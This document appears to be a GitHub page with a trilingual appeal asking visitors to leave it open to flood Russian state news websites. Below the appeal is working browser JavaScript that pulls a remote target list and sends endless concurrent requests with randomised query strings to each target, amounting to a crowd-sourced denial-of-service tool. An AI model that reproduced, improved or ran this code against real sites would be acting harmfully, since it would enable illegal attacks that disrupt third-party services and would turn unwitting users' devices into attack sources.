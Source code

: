 | English version | Русская версия | Українська версія |
| --------------- | -------------- | ----------------- |
| The "official" news in the Russian Federation is mostly fake and we believe it is better to shut them down and let people switch to trustful news. Please, just open this page and let it be open on your devices. It will flood the Russian propaganda websites and pose a huge load on their infrastructure. Your browser will be slow. It's ok, don't worry and keep it run. A small contribution from each of us will save Ukraine 🙏 | «Официальные» новости в РФ полны пропаганды и транслируют лживую информацию о событиях на Украине. Мы считаем, что лучше их закрыть и позволить людям переключиться на достоверные новости. Пожалуйста, откройте эту страницу на ваших устройствах. Это зальёт российские пропагандистские сайты запросами и создаст огромную нагрузку на их инфраструктуру. Ваш браузер будет работать медленно. Все в порядке, не волнуйтесь и держите его открытым. Небольшой вклад каждого из нас спасет Украину 🙏 | «Офіційні» новини в РФ сповнені пропаганди та транслюють брехливу інформацію про події в Україні. Ми вважаємо, що краще їх закрити та дозволити людям переключитися на достовірні новини. Будь ласка, відкрийте цю сторінку на вашому пристрої. Це закидає російські пропагандистські сайти запитами та створить величезне навантаження на їхню інфраструктуру. Ваш браузер працюватиме повільно. Все гаразд, не хвилюйтеся та тримайте його відкритим. Невеликий внесок кожного з нас врятує Україну 🙏 |

<body>
    <div id="stats"></div>
    <script>
        const ERROR_SYMBOL = "❌";
        const SUCCESS_SYMBOL = "✔️"
        const NO_RESPONSE_SYMBOL = "☠️";
        let targetsURL = 'https://raw.githubusercontent.com/anondevua/anondevua.github.io/main/ddos/targets.txt';
        const updateInterval = 500;
        const fetchTimeout = 1000;
        const CONCURRENCY_LIMIT = 1000;
        const RESULTS_NUM=10
        var targetStats = {}
        var statsEl = document.getElementById('stats');
        function printStats() {
            for (var [target, stats] of Object.entries(targetStats)) {
                stats.last_responses = stats.last_responses.slice(-RESULTS_NUM)
            }
            var table_body = Object.entries(targetStats).map(
                ([target, { number_of_requests, number_of_errored_responses, last_responses }]) => 
                '<tr style="background-color:' + 
                    (last_responses.includes(ERROR_SYMBOL) ? '#FF4500' : 
                        last_responses.includes(SUCCESS_SYMBOL) ? '#3CB371' : '#FFEFD5') + 
                '"><td>' + target + 
                '</td><td>' + number_of_requests + 
                '</td><td>' + number_of_errored_responses + 
                '</td><td>' + last_responses.join('') + 
                '</td></tr>'
            ).join('')
            statsEl.innerHTML = '<table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th><th>Responses</th></tr></thead><tbody>' + table_body + '</tbody></table>'
        }
        setInterval(printStats, updateInterval);
        var queue = []
        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                method: 'GET',
                mode: 'no-cors',
                signal: controller.signal
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }
        async function flood(target) {
            for (var i = 0; ; ++i) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift()
                }
                rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
                queue.push(
                    fetchWithTimeout(target + rand, { timeout: fetchTimeout })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            targetStats[target].number_of_errored_responses++;
                            targetStats[target].last_responses.push(ERROR_SYMBOL);
                        })
                        .then((response) => {
                            if (response) {
                                if (!response.ok) {
                                    targetStats[target].number_of_errored_responses++;
                                    targetStats[target].last_responses.push(NO_RESPONSE_SYMBOL);
                                }
                            }
                            targetStats[target].last_responses.push(SUCCESS_SYMBOL);
                            targetStats[target].number_of_requests++;
                        })
                )
            }
        }
        fetch(targetsURL).then((r) => {
            r.text().then((d) => {
                let targets = d.split('\n');
                targets.forEach((target) => {
                    targetStats[target] = {
                        number_of_requests: 0,
                        number_of_errored_responses: 0,
                        last_responses: []
                    }
                })
                targets.map(flood)
            })
        })
    </script>
</body>

